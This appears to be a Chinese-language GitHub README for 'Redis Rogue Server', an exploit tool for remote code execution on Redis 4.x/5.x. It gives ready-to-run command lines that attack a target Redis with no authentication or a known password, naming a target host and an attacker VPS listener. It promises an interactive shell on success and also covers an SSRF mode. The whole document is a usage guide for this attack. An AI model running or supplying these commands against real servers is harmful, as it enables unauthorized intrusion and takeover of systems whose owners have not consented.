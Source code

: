# Redis Rogue Server

Redis 4.x/Redis 5.x RCE利用脚本, 涉及技术点可参考 [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

经测试Redis 5.0.8也可以使用，没有出现ppt上写的5.0无法set/get config的情况.

## Usage:

编译.so模块, 代码: <https://github.com/n0b0dyCN/RedisModules-ExecuteCommand>.

将.so与 `redis-rogue-server.py`放置在同一目录下

项目自带了一个编译好的的exp.so文件, 可直接使用

### 攻击场景1 - Redis未授权访问/已知口令

启动redis rogue server，并主动连接目标redis服务发起攻击

```bash
python3 redis-rogue-server.py --rhost <target address> --rport <target port> --lhost <vps address> --lport <vps port>
```

参数说明：
- `--rpasswd` 如果目标Redis服务开启了认证功能，可以通过该选项指定密码
- `--rhost` 目标redis服务IP
- `--rport` 目标redis服务端口，默认为6379
- `--lhost` vps的外网IP地址
- `--lport` vps监控的端口，默认为21000

攻击成功之后，你会得到一个交互式shell

### 攻击场景2 - SSRF

在SSRF的常见下，可以使用`--server-only`选项

```bash
python3 redis-rogue-server.py --server-only
```

参数说明：

- `--server-only` 仅启动redis rogue server, 不主动连接目标redis